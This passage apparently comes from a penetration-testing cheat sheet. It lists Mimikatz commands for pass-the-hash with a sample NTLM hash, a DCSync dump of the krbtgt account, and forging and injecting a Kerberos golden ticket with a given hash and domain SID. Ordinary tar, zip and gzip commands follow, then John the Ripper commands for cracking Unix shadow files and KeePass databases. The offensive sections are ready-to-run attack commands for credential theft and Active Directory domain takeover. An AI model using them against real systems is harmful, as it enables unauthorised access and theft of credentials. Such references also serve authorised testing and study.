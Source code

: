 ```powershell
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'
 ```

### Kerberos

*  Generate Golden Ticket (Domain Admin Required)

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'
Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"
Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'
```

## Cracking

Decompress things:

```sh
tar xf archive.tar
tar xvzf archive.tar.gz
tar xjf archive.tar.bz2
tar xtvf file.tar.gz | grep <WORD>
tar -C <DEST> -xvf <FILE>
unzip archive.zip
gzip -d archive.gz

# read a gz file without decompressing
zcat archive.gz
zless archive.gz
zgrep <WORD> /var/log/mailliog*.gz

# Search instide a zip archive
zipgred *.txt archive.zip
```

Compress things:

```sh
zip -r file.zip /dir/*
tar cf archive.tar files
tar czf archive.tar.gz files
tar cjf archive.tar.bz2 files
gzip file
```

### John

```sh
john --wordlist=dict.txt passwd
john --show passwd
john --restore
unshadow passwd shadow > unshadowed.txt
john --wordlist=dict.txt unshadowed.txt
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
```
